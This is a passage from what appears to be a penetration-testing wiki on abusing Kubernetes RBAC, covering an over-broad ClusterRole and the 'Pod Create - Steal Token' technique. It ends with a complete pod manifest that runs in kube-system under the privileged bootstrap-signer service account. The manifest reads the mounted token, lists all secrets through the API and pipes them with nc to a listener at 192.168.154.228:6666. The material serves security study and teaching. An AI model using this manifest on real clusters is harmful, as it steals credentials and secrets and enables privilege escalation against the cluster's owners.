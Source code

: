 ```yaml
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRole
metadata:
  name: api-resource-verbs-all
rules:
rules:
- apiGroups: ["*"]
  resources: ["*"]
  verbs: ["create", "list", "get"]
```

### Pod Create - Steal Token

An attacker with permission to create a pod in the “kube-system” namespace can create cryptomining containers for example. Moreover, if there is a **service account with privileged permissions, by running a pod with that service the permissions can be abused to escalate privileges**.

![](<../../../.gitbook/assets/image (463).png>)

Here we have a default privileged account named _bootstrap-signer_ with permissions to list all secrets.

![](https://www.cyberark.com/wp-content/uploads/2018/12/rolebinding\_with\_cluster\_admin\_clusterrole-1024x545.png)

The attacker can create a malicious pod that will use the privileged service. Then, abusing the service token, it will ex-filtrate the secrets:

![](https://www.cyberark.com/wp-content/uploads/2018/12/pods\_yaml\_with\_autoamountServiceAccountToken-1024x345.png)

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: alpine
  namespace: kube-system
spec:
  containers:
  - name: alpine
    image: alpine
    command: ["/bin/sh"]
    args: ["-c", 'apk update && apk add curl --no-cache; cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" https://192.168.154.228:8443/api/v1/namespaces/kube-system/secrets; } | nc -nv 192.168.154.228 6666; sleep 100000']
  serviceAccountName: bootstrap-signer
  automountServiceAccountToken: true
  hostNetwork: true
```
